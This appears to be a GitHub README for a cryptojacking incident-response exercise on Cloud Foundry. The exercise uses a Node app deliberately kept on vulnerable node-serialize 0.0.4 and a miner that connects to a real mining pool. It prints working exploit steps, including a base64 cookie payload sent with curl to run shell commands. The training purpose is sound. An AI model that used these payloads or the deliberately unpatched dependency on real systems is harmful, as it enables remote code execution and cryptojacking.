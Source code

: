 ## A cryptojacking incident response excercise for Cloud Foundry

This was inspired by, and originally forked from, code in https://github.com/mfdii/miner-blog, by [Michael Ducy](https://twitter.com/mfdii). That code accompanies [this blog post](https://sysdig.com/blog/detecting-cryptojacking-with-sysdigs-falco/), on Detecting Cryptojacking with Sysdig's [Falco](https://github.com/draios/falco).

I munged it for use in an incident response exercise with Cloud Foundry. It uses an Immediately-Invoked Function Expression attack on a NodeJS application to run arbitrary code in a container. The vulnerable application is in `node-exploitable/`, and relies on [node-serialize 0.0.4](https://github.com/luin/serialize) which has a [known, unpatched, 2017 CVE](https://www.cvedetails.com/vulnerability-list/vendor_id-16128/product_id-36008/version_id-208749/Node-serialize-Project-Node-serialize-0.0.4.html). As a result, I see this 
![warning in GitHub](./node-serialize-warning.png):

> ⚠️ We found a potential security vulnerability in one of your dependencies. A dependency defined in node-exploitable/package-lock.json has known security vulnerabilities and should be updated.

Clearly I'm not updating it or the whole exercise won't work.

For this scenario, I injected a `miner/`, which uses a [Node stratum-client](https://github.com/arnabk/stratum-client) to connect to a mining pool over port 3333, then it simulated mining activity by running [bcrypt](https://github.com/dcodeIO/bcrypt.js) to burn CPU.

I also experimented with using [cpulimit](https://github.com/opsengine/cpulimit), so the linked executable for Ubuntu 14.04 is in `miner/cl`.

Lastly, I thought I'd make things even harder by having other Node apps that just happened to a lot of CPU for every web request in `node-decoy/`.

## Local demo

Window 1:

```bash
cd ./node-exploitable
npm install
npm start
...
```

Window 2:

```bash
payload=$(printf "ls -l /" | ./nodejspayload.py | base64)
curl -b "profile=$payload" -vs http://localhost:8000
```

Window 1 should then show the `ls -l /` results for the server

### Cloud Foundry demo

Push the expoitable client:

```bash
cd ./node-exploitable
cf push
cf logs hello-iife
```

```bash
./exploit-it.sh
```

Then `cf ssh hello-iife`. You should see the code in `/tmp/miner` and that `lsof -i` shows a connection to the mining pool.

```
node      160 vcap   10u  IPv4 22662477      0t0  TCP 1cefe2b8-25f0-418b-4e92-96da:53330->pool1.grlcgang.com:3333 (ESTABLISHED)
```

Meanwhile, `cf app hello-iife` should show one of the two instances burning a lot of CPU:

```
type:           web
instances:      2/2
memory usage:   64M
     state     since                  cpu     memory         disk
#0   running   2018-08-15T14:04:37Z   97.9%   54.6M of 64M   78.2M of 256M
#1   running   2018-08-15T14:04:37Z   0.0%    35.2M of 64M   72.5M of 256M
```